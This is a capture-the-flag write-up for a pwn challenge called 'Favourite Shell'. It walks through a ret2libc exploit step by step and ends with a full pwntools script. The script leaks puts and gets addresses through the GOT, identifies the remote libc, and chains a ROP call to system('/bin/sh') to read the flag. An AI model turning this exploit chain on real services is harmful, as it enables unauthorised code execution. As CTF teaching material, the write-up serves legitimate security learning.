




# [Pwn] Favourite Shell

## ✨ Walkthrough

The challenge *closely resembles* another CTF challenge I encountered, and I found a [detailed write-up](https://github.com/rehackxyz/REUN10N/tree/main/CTF-writeups/2024/OSCTF/pwn-lib_riddle) on it. Please take a look!

Basically, this is a ret2libc challenge but the problem is we don't have access to the actual libc file so what we need to do is **identify what version of libc used by the remote** and then *perform the exploit*.

> *"Screenshots in this write-up may differ from those in the remote challenge due to variations in the virtual machines used. I forgot to save the screenshots during the competition sobsob."*

### Information about the Binary



### Part 0 - Finding the Offset and Gadget

Firstly, we need to find the offset so that we could overwrite the RIP. It can be done through debugging using gdb or *you can just use [Ghidra](https://ghidra-sre.org/)* (*work smarter, not harder lol*). In the screenshot below, we can see that the size of the offset is `0x28`.



After that, we need to find the `pop rdi` gadget (*the purpose of the gadget will be explained later*). There is a function named `rop` which provide the gadget inside the binary itself, hinting that the chal required basic knowledge of Return Oriented Programming (ROP) for the exploitation. That said, we will use [ROPgadget](https://pypi.org/project/ROPGadget/) to find the address of the gadget. The address is `0x40118d`.



### Part 1 – Finding the LIBC Version 

We will use [pwntools](https://pypi.org/project/pwntools/) to leak the address of `puts` and `gets` functions. Inside the binary, we found that it used both functions in `main` function.

> *"plt (Procedure Linkage Table) is a table that redirects function calls to their actual addresses, allowing the binary to resolve external function calls at runtime."*

> *"got (Global Offset Table) stores the actual addresses of external functions, allowing the plt to redirect function calls to their correct locations in memory."*

That said, we can leak the addresses of `puts` and `gets` functions used by the binary through the got table.

```python
from pwn import *
elf = context.binary = ELF("./chal", checksec=False)

# p = process('./chal')
p = remote("IP_ADDR", 5006)

offset = 0x28
pop_rdi = p64(0x40118d)
plt_puts = p64(elf.plt['puts'])
got_puts = p64(elf.got['puts'])
got_gets = p64(elf.got['gets'])
```

In the code snippet shown above, we initialised the variables needed to leak the address. We use `plt_puts` to call the `puts` function to print/leak the address in the terminal, `got_puts` and `got_gets` store the offset address ... it will be used as argument for the `puts` function. 

```python
payload = b'A'*offset
payload += pop_rdi + got_puts + plt_puts
payload += pop_rdi + got_gets + plt_puts
payload += p64(elf.sym['main'])

p.sendlineafter(b'whats your favourite shell?', payload)
p.recvline()
p.recvline()

leaked_puts = u64(p.recvline().strip()[:6].ljust(8, b'\x00'))
leaked_gets = u64(p.recvline().strip()[:6].ljust(8, b'\x00'))
print("Leaked PUTS:", hex(leaked_puts))
print("Leaked GETS:", hex(leaked_gets))
```

To make the explanation for the payload *simpler*;
1. Fill the buffer with padding.
2. Use `puts` function to leak the actual address of `puts` function, then pop it out from `rdi`.
3. Use `puts` function to leak the actual address of `gets` function, then pop it out from `rdi`.
4. Call the `main` function *to go back lol* and insert our exploit payload *later*.

We received two addresses, `puts` and `gets` function in hexadecimal format. After that, use [libc-database](https://libc.rip/) to identify the libc version by inserting the addresses obtained. Later we found that the remote server use **libc6_2.35-0ubuntu1_amd64.so** so download the libc file for our exploitation. 

### Part 2 – Exploitation

```python
libc = ELF('./libc6_2.35-0ubuntu1_amd64.so')
libc.address = leaked_puts - libc.sym['puts']

rop = ROP(libc)
rop.system(next(libc.search(b'/bin/sh\x00')))

payload = b'A'*offset + rop.chain()
p.sendlineafter(b'whats your favourite shell?', payload)
p.recvline()
p.recvline()
```

We could find the base address of the libc by subtracting the `leaked puts` with the `actual puts`. After that, locate the address of the shell using ROP and form a ROP chain for exploit. Access gained! Retrieve the flag :)

```python
p.sendline(b'cat flag.txt')
flag = p.recvall(timeout=1).strip()
print(flag.decode())
p.close()
```

## ⚙ Full Script

```python
from pwn import *
elf = context.binary = ELF("./chal", checksec=False)

# p = process('./chal')
p = remote("IP_ADDR", 5006)

offset = 0x28
pop_rdi = p64(0x40118d)
plt_puts = p64(elf.plt['puts'])
got_puts = p64(elf.got['puts'])
got_gets = p64(elf.got['gets'])

# Part 1 - Leaking the Address

payload = b'A'*offset
payload += pop_rdi + got_puts + plt_puts
payload += pop_rdi + got_gets + plt_puts
payload += p64(elf.sym['main'])

p.sendlineafter(b'whats your favourite shell?', payload)
p.recvline()
p.recvline()

leaked_puts = u64(p.recvline().strip()[:6].ljust(8, b'\x00'))
leaked_gets = u64(p.recvline().strip()[:6].ljust(8, b'\x00'))
print("Leaked PUTS:", hex(leaked_puts))
print("Leaked GETS:", hex(leaked_gets))

# Part 2 - Actual Exploitation

libc = ELF('./libc6_2.35-0ubuntu1_amd64.so')
libc.address = leaked_puts - libc.sym['puts']

rop = ROP(libc)
rop.system(next(libc.search(b'/bin/sh\x00')))

payload = b'A'*offset + rop.chain()
p.sendlineafter(b'whats your favourite shell?', payload)
p.recvline()
p.recvline()

p.sendline(b'cat flag.txt')
flag = p.recvall(timeout=1).strip()
print(flag.decode())
p.close()
```



> *"Once again, screenshots in this write-up may differ from those in the remote challenge due to variations in the virtual machines used. I forgot to save the screenshots during the competition sobsob."*